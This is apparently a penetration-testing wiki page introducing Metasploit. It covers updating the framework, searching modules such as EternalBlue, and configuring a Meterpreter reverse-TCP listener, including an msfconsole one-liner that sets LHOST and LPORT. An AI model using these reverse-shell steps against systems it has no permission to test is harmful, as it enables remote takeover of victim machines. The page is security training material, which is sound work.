







---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Metasploit

[Metasploit](https://www.metasploit.com/) is so useful it gets its own page here. It is owned and maintained by Rapid7 but the code is open-source. The **Metasploit Framework** is a tool for developing and executing exploit code against a remote target machine. It is installed by default on Kali.

Metasploit is a modular framework. A complete list of available modules can be found [on their website](https://docs.metasploit.com/docs/modules.html).

## Metasploit Console

The Metasploit console can be launched via the `msfconsole` command.

It is recommended to always update Metasploit prior to launching a session using `apt`:

```bash
sudo apt update; sudo apt install metasploit-framework -y
```

* If using a version of Metasploit that was not installed with `apt`, the `msfupdate` command can be used to update

From here the console can be launched and will appear like this:

<figure><figcaption><p>Metasploit Console launch </p></figcaption></figure>

### Searching Modules

#### Listing Modules

Modules can be listed using the show command. For example, to list all payloads use:

```
show payloads
```

This results in a long list of all installed payloads:

<figure><figcaption><p>Displaying all payloads</p></figcaption></figure>

This command can also be run with the parameter `auxiliary`, `encoder`, `evasion`, `exploits`, `nops`, or `post` in place of `payloads`.

#### Search

To search something, simply use the search command. For example, to look for the Eternal Blue exploits use the command:

```
search "EternalBlue"
```

This results in the output:

<figure><figcaption><p>Searching payloads</p></figcaption></figure>

It is also possible to search by protocol, e.g. `search SMB`.

### Meterpreter

#### Reverse Shell

Meterpreter is a Metasploit attack payload that provides an interactive shell from which an attacker can explore the target machine and execute code. It is incredibly handy for catching reverse shells.

The most basic reverse shell catcher for Meterpreter is set up as follows. First the multi handler is configured as the exploit:

```
use exploit/multi/handler
```

This example will use a Windows target but the steps are the same for a Linux target. Assuming the payload was crated to use the Windows Reverse TCP Meterpreter the payload is set as follows:

```
set payload windows/meterpreter/reverse_tcp
```

* This is a staged version of the payload so when the session is started the remainder of the payload will be delivered

From here the options can be reviewed with:

```
show options
```

The options to be set are `LHOST` and `LPORT` which are the IP address and port Metasploit will listen for connections on:

<figure><figcaption><p>Options for the exploit</p></figcaption></figure>

The options can be set with the command:

```
set <OPTION> <value>
```

For example to set, LHOST to 192.168.45.159 the command is:

```
set LHOST 192.168.45.159
```

After the options are set the `exploit` command is used to launch the listener (`run` can also be used):

<figure><figcaption><p>Meterpreter waiting for a connection</p></figcaption></figure>

The listener will remain open as long as the user does not end the `msfconsole` session. Once a victim machine has been induced to reach out to to the following will appear:

<figure><figcaption><p>Connection to the reverse shell</p></figcaption></figure>

* Note the line about delivering the stage which is consistent with the staged payload selected above&#x20;

This behavior can be combined into a one-liner using the `-x` flag when launching msfconsole:


```bash
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST $rev_ip; set LPORT $rev_port;run;"
```


* `$rev_ip` and `$rev_port` are the IP address and port respectively. They can be set as session variables or written in the command. E.g. `set LHOST 192.168.45.159;`

<figure><figcaption><p>Launching a listener with the one-liner</p></figcaption></figure>

## Msfvenom

[Msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) is the combination of payload generation and encoding. It can be used to generate standalone payloads from the command line. It can also be used to generate shellcode which can be inserted into other exploits.
